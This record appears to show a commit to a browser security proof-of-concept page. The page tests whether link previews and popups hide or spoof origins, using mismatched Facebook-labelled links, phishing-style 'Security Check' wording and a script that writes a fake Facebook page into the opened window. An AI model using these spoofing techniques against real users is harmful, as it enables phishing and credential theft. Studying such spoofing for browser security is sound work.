

Before and after one commit to LowLevelJody/pocbrowseraja, a plain HTML site: page code2.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update code2.html

```diff
--- a/code2.html
+++ b/code2.html
@@ -1,8 +1,40 @@
-  <!doctype html>
+<!doctype html>
   <meta charset="utf-8">
+  <title>Preview Origin Hidden PoC</title>
 
-  <a href="santa.html" target="ux" onclick="setTimeout(spoof, 200)">
-    <h1>click here</h1>
+  <h1>Preview Origin Hidden PoC</h1>
+
+  <p>1. Normal live URL control:</p>
+  <a href="https://www.facebook.com/" target="ux">
+    <h1>Facebook normal live URL</h1>
+  </a>
+
+  <hr>
+
+  <p>2. Hanging Facebook port. Check if preview hides domain:</p>
+  <a href="https://www.facebook.com:1234" target="ux">
+    <h1>hi from facebook</h1>
+  </a>
+
+  <hr>
+
+  <p>3. Mismatch test. Real href is example.com:1234, preview text says Facebook:</p>
+  <a href="https://example.com:1234" target="ux">
+    <h1>https://www.facebook.com</h1>
+  </a>
+
+  <hr>
+
+  <p>4. Stronger mismatch with fake login wording:</p>
+  <a href="https://example.com:1234" target="ux">
+    <h1>Facebook Security Check</h1>
+  </a>
+
+  <hr>
+
+  <p>5. Combine with popup write after click:</p>
+  <a href="https://www.facebook.com:1234" target="ux" onclick="setTimeout(spoof, 200)">
+    <h1>Facebook Account Verification</h1>
   </a>
 
   <script>
@@ -13,7 +45,7 @@
       t.document.write('<!doctype html><title>Facebook</title><h1>hi from facebook</h1>');
       t.document.close();
     } catch (e) {
-      console.log(e);
+      console.log('spoof blocked:', e);
     }
   }
   </script>
```
